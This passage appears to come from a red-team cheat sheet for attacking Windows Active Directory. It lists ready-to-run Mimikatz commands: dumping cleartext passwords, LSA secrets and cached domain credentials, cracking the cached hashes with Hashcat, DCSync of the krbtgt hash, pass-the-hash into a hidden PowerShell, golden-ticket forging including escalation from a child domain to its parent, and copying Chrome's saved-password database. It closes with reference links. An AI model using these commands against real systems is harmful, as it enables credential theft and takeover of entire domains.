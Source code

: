 https://github.com/gentilkiwi/mimikatz/wiki

> [Attack Methods for Gaining Domain Admin Rights in Active Directory][14]

Dump Cleartext Credentials

    sekurlsa::wdigest
    sekurlsa::logonpasswords
    lsadump::secrets

Dump cached domain credentials

    lsadump::cache

Format mscachev2 as `$DCC2$10240#username#hash`

    cat 'mscachecreds.txt' | awk -F ":" {'print "$DCC2$10240#"$1"#"$2'}

Crack mscachev2 format with Hashcat (extremely slow)

    ./hashcat -m 2100 -a 0 mscachev2.dump ./wordlists/* -r rules/dive.rule

DCSYNC – Remote Hash Dumping from a Domain Controller

    mimikatz lsadump::dcsync /user:domainkrbtgt

* There is also a CS built-in function for this
* Source: http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

Pass the Hash

    mimikatz sekurlsa::pth /user:localadmin /domain:. /ntlm:21306681c738c3ed2d615e29be1574a3 /run:powershell -w hidden

Golden Ticket Creation (File)

    mimikatz kerberos::golden /user:newadmin /domain:domain.com /sid:S-1-5-21-3683589091-3492174527-1688384936 /groups:501,502,513,512,520,518,519 /krbtgt: /ticket:newadmin.tkt

Golden Ticket Creation (Pass-The-Ticket) – Create the ticket for your current session

    mimikatz kerberos::golden /user:newadmin /domain:domain.com /sid:S-1-5-21-3683589091-3492174527-1688384936 /krbtgt: /ptt

To create a Golden ticket to own the parent domain, once a child domain controller is compromised you will need the following pieces:

    /user:ChildDomainControllerMachineName$
    /rc4: KRBTGT Hash
    /sid:Child Domain SID
    /domain:FQDN of Child Domain
    /groups:516
    /sids:ParentSID-516,S-1-5-9
    /id:ID of Child Domain Controller
    /ptt

Dump Google Chrome passwords

    shell copy "C:userskobrienappdatalocalgooglechromeuser datadefaultLogin Data" C:userspubliclibrariesld.dat


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond